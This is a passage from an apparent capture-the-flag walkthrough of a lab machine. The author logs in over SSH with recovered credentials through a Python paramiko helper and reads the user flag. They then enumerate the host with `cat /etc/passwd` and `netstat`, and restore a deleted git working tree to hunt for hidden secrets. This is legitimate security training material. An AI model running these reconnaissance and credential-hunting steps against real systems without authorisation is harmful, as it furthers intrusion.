 ```bash

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ 
```

From here I needed to deviate from my notebook a bit to use the interactive terminal more cleanly. In actions where I can get an output, I replicated the commands in Python to show the results (and to generate the output more quickly for this writeup). For anything that was a write action, I included the output from the terminal manually.


```python
import paramiko

ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect(target, username=dev_account['username'], password=dev_account['password'])

def run_command(command):
    stdin, stdout, stderr = ssh.exec_command(command)
    return stdout.readlines()
```

Logging into the system, I can see a user.txt that's readable by me, and the first flag. I don't have the output here, but a `sudo -l` also showed this user had no special suid rights to abuse.


```python
pprint(run_command('ls -alhn'))
pprint(run_command('cat user.txt'))
```
```
    ['total 32K\n',
     'drwxr-x--- 4 1001 1001 4.0K Jun  5 14:36 .\n',
     'drwxr-xr-x 4    0    0 4.0K Jun  5 14:36 ..\n',
     'drwxrwxr-x 3 1001 1001 4.0K Jun  5 14:36 apps\n',
     'lrwxrwxrwx 1    0    0    9 Feb  6  2023 .bash_history -> /dev/null\n',
     '-rw-r--r-- 1 1001 1001  220 Jan  6  2022 .bash_logout\n',
     '-rw-r--r-- 1 1001 1001 3.7K Jan  6  2022 .bashrc\n',
     'drwx------ 2 1001 1001 4.0K Jun  5 14:36 .cache\n',
     '-rw-r--r-- 1 1001 1001  807 Jan  6  2022 .profile\n',
     '-rw-r----- 1    0 1001   33 Jun 16 04:29 user.txt\n']
    ['984907e1f4123d6e0c10e126767b9e1e\n']
```

ABE, Always Be Enumerating. Lets get the list of users, and open ports in case there's anything else worth exploiting later.

Additionally, in the home directory I found an empty `apps` folder with a `.git` hidden folder here-in. `git status` showed me the non-committed deletion of the app directory. I wonder what the user has to hide here.


```python
pprint(run_command('cat /etc/passwd'))
pprint(run_command('netstat -tulnp | grep LISTEN'))
pprint(run_command('cd ~/apps && git status && git restore . && ls -alhn'))
```
